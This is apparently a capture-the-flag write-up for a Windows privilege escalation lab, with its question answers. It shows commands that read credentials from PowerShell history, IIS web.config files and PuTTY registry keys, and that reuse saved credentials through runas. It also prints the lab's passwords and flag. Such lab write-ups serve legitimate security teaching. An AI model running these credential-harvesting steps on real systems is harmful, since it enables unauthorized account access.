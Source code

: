 ```powershell
PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...
```

IIS, the Windows web server may contain credentials in it's configuration file. 
The places to look for them are here: 
```powershell
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

Putty, the ssh client application will sometimes store plain text passwords for proxy configurations. 
To display these plain text passwords, display the values in the registry key below. 
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


#### Questions

A password for the julia.jones user has been left on the Powershell history. What is the password?
```
PS C:\Users\thm-unpriv> type C:\Users\thm-unpriv\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z

ZuperCkretPa5z
```

A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
```
 notepad C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

 <add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />

098n0x35skjD3
```

There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.
```
PS C:\Users\thm-unpriv> runas /savecred /user:mike.katz cmd.exe
Attempting to start cmd.exe as user "WPRIVESC1\mike.katz" ...

cd C:\Users\mike.katz\Desktop
notepad flag.txt

THM{WHAT_IS_MY_PASSWORD}
```
